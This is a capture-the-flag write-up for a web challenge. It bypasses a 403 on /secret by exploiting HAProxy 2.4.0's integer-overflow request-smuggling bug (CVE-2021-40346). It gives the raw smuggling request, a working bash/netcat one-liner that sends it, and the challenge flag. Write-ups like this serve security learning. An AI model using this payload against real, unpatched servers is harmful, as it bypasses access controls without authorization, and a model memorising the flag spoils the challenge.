






🚩 Second Challenge

### Question


> Link: http://34.227.78.164/

### Solution
- This is how the webpage looks like
- 
- From that we know that the flag is in `/secret` which is a directory on the webpage
- Trying to access it gives us **403 Forbidden** error
- 
- So we now know we need to find a way to bypass that restrictions on `/secret`
- While playing around on that website with burp I found a header value which is all what we needed!
-  
-  `x-server: HaProxy-2.4.0`!!
-  With some searching you will immediately find this server is vulnerable ([CVE-2021-40346](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)) - **HAProxy HTTP Smuggling** using **Integer Overflow**
-  That page explain how to exploit it and why it works
-  There is also this [repo](https://github.com/knqyf263/CVE-2021-40346) doing a PoC
-  The fun thing here is that I found a writeup for this challenge (99% same) by Zeyu's also the author of the chall was the same here, the talented **Ahmed Kahla** 😀 [LINK](https://ctf.zeyu2001.com/2022/securinets-ctf-finals-2022/struggle)
-  This challenge took me 2 days to solve! which was sad because I actually found all this from the first day but I was solving it with burp but seems like it can't be solved with burp (maybe there are some settings needs to be changed) I even contacted the author and he said try another tool and I tried bash as the writeup used and it worked!! later on a hint released and it was `Smuggling with Bash is better :D` because some-many users had the same issue with burp
-  Anyways! 
-  The exploit is pretty simple, you just need to take the payload from the references above and change content-length based on your POST body payload length
```css
POST / HTTP/1.1
Host: 34.227.78.164
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 28

GET /secret HTTP/1.1
DUMMY: GET /test HTTP/1.1
Host: 34.227.78.164
```
The payload sent to Bash was
```bash
(printf "POST / HTTP/1.1\\r\\n"\
"Host: 34.227.78.164\\r\\n"\
"Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:\\r\\n"\
"Content-Length: 28\\r\\n\\r\\n"; sleep 1;
printf "GET /secret HTTP/1.1\\r\\n"\
"DUMMY:"; sleep 1; printf "GET /test HTTP/1.1\\r\\n"\
"Host: 34.227.78.164\\r\\n\\r\\n") | nc 34.227.78.164   80
```

- The actual content-length is the selected text as shown below, the first smuggled HTTP request which will make the original HTTP request go to it. My selected payload was 28 chars long
- 
- Send it to bash and VOILAAAA!!!
- 
> Flag: `FLAG{ACL_Bypass_WiTh_SmuGGlinG_For_B0rUt0}`